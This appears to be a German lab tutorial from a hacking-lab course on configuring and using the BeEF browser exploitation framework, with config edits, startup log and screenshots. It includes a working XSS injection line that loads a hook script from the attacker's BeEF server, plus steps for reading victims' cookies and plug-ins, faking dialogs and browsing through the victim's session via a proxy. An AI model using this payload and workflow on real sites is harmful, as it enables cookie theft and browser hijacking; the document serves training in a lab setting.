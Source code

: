 # BeeF (Browser Exploitation Framework)
## Konfiguration Beef Login Credentials
Um Beef auf der Hacking-Lab LiveCD zu starten, muss man zuerst die Login Credentials anpassen. Ansonsten startet das Tool nicht. 
```
atom /etc/beef-xss/config.yaml
```



ORIGINAL Credentials:
```
    credentials:
        user:   "beef"
        passwd: "beef"
```

NEUE Credentials:
```
    credentials:
        user:   "admin"
        passwd: "compass"
```


## Starten von Beef in einem "root terminal"

```
cd /usr/share/beef-xss
./beef
```

Startup Notification beim Starten von beef
```
╰─$ ./beef 
[12:58:03][*] Browser Exploitation Framework (BeEF) 0.4.7.1-alpha
[12:58:03]    |   Twit: @beefproject
[12:58:03]    |   Site: https://beefproject.com
[12:58:03]    |   Blog: http://blog.beefproject.com
[12:58:03]    |_  Wiki: https://github.com/beefproject/beef/wiki
[12:58:03][*] Project Creator: Wade Alcorn (@WadeAlcorn)
[12:58:04][*] BeEF is loading. Wait a few seconds...
[12:58:07][*] 8 extensions enabled:
[12:58:07]    |   Proxy
[12:58:07]    |   Requester
[12:58:07]    |   Admin UI
[12:58:07]    |   XSSRays
[12:58:07]    |   Network
[12:58:07]    |   Social Engineering
[12:58:07]    |   Events
[12:58:07]    |_  Demos
[12:58:07][*] 300 modules enabled.
[12:58:07][*] 6 network interfaces were detected.
[12:58:07][*] running on network interface: 127.0.0.1
[12:58:07]    |   Hook URL: http://127.0.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 192.168.134.131
[12:58:07]    |   Hook URL: http://192.168.134.131:3000/hook.js
[12:58:07]    |_  UI URL:   http://192.168.134.131:3000/ui/panel
[12:58:07][*] running on network interface: 172.17.0.1
[12:58:07]    |   Hook URL: http://172.17.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.17.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 172.19.0.1
[12:58:07]    |   Hook URL: http://172.19.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.19.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 172.18.0.1
[12:58:07]    |   Hook URL: http://172.18.0.1:3000/hook.js
[12:58:07]    |_  UI URL:   http://172.18.0.1:3000/ui/panel
[12:58:07][*] running on network interface: 10.201.2.110
[12:58:07]    |   Hook URL: http://10.201.2.110:3000/hook.js
[12:58:07]    |_  UI URL:   http://10.201.2.110:3000/ui/panel
[12:58:07][*] RESTful API key: a49efd6e94d79221cbad78dc07553e0fd37ca35e
[12:58:07][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[12:58:07]    |_  Run geoipupdate to install
[12:58:07][*] HTTP Proxy: http://127.0.0.1:6789
```

## Attack & Exploit URLs
Die IP Adresse ändert sich natürlich, je nachdem auf welchem Gerät man `beef` startet. Bitte in den Befehlen unten Eure eigene IP Adresse verwenden. 

* Injection `<script src="http://10.201.2.110:3000/hook.js"></script>`
* Admin URL `http://10.201.2.110:3000/ui/panel`
* Proxy URL `http://127.0.0.1:6789`

## Injection
Hook bei der verwundbaren Seite einfügen

![inject](../images/inject.png)

## Admin Panel
Beim Angreifer erscheint das Opfer in der Admin Console

![admin](../images/adminpanel.png)

* Cookies auslesen
* Browser Plug-ins auslesen
* Dialoge faken

## Beef Proxy 
Man kann einen Browser derart konfigurieren, dass dieser den Beef Proxy verwendet. Damit surft der Angreifer quasi gleich wie das Opfer. 

![proxy](../images/proxy.png)

Danach kann der Angreifer so surfen wie es das Opfer sieht. 

![xssshell](../images/xssshell.png)




